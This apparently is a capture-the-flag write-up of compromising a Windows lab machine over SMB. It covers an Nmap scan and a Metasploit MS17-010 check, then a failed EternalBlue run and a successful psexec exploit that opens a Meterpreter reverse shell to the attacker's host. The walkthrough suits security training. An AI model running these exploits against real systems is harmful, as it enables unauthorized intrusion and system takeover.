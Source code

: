 
# Information Gathering

## Nmap
Running an Nmap scan.

```console
root@kali:~# nmap 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 03:18 EDT
Nmap scan report for 10.10.10.4
Host is up (0.21s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

```
From the above output we can see that ports, **139** and **445** are open.

Since 445 is open let's try to check if it's vulnerable to Eternalblue.

```console
msf5 > search eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
Let's go ahead and check if the box is vulnerable to Eternal Blue, we use `auxiliary/scanner/smb/smb_ms17_010`.

Set value of RHOSTS to 10.10.10.4 and run the module

```console
msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Here we see it is likely vulnerable to eternal blue. This module exploits the vulnerability found in Server Message Block V1 running on port 445. SMB mishandles the crafted packets sent by the attacker, thus allowing Remote Code Execution, let's try exploiting it.

[//]:![FTP](./Lame/ftp.png)
[//]:# ( **Figure 1:** FTP Anonymous Login Possible)

# Exploitation  

[//]:# (Google reveals that there's a metasploit module for the vulnerability. Going ahead and starting msfconsole and searching for samba.)

Using exploit `windows/smb/ms17_010_eternalblue` and setting RHOSTS 10.10.10.4

```console
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

Let's run the module now.

```console
[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.4:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.4:445 - Connecting to target for exploitation.
[+] 10.10.10.4:445 - Connection established for exploitation.
[+] 10.10.10.4:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.4:445 - CORE raw buffer dump (11 bytes)
[*] 10.10.10.4:445 - 0x00000000  57 69 6e 64 6f 77 73 20 35 2e 31                 Windows 5.1     
[+] 10.10.10.4:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.4:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.4:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.4:445 - Starting non-paged pool grooming
[+] 10.10.10.4:445 - Sending SMBv2 buffers
[+] 10.10.10.4:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.4:445 - Sending final SMBv2 buffers.
[*] 10.10.10.4:445 - Sending last fragment of exploit packet!
[*] 10.10.10.4:445 - Receiving response from exploit packet
[+] 10.10.10.4:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.4:445 - Sending egg to corrupted connection.
[*] 10.10.10.4:445 - Triggering free of corrupted buffer.
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
Exploit failed.

We try `exploit/windows/smb/ms17_010_psexec` EternalRomance SMB Vuln. This vulnerability is more reliable than the Eternalblue(EternalBlue in 90% cases causes BSOD), this vulnerability exploits a bug in 'named pipes'.
Use the module, set rhosts to the IP of the box and run.

```console
msf5 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x8230a598
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... jjcqgneP.exe
[*] 10.10.10.4:445 - Created \jjcqgneP.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \jjcqgneP.exe...
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.4:1036) at 2020-03-17 03:48:58 -0400

meterpreter > 
```

Got a session!

## User Flag

In order to get the user flag, we change the directory to the user Desktop 'john' and we simply need to use `cat` to read the contents of user.txt
```
root@kali:~$ cat user.txt

```

## Root Flag

There's no need to privesc this box as we could easily change directory to the Administrator Desktop folder and `cat` the root.txt
```
root@kali:~$ cat root.txt

```

# Conclusion
Overall the box was pretty easy as the exploits were straight forward and there was no need for a privesc. Both root and user could be owned in a single exploit.

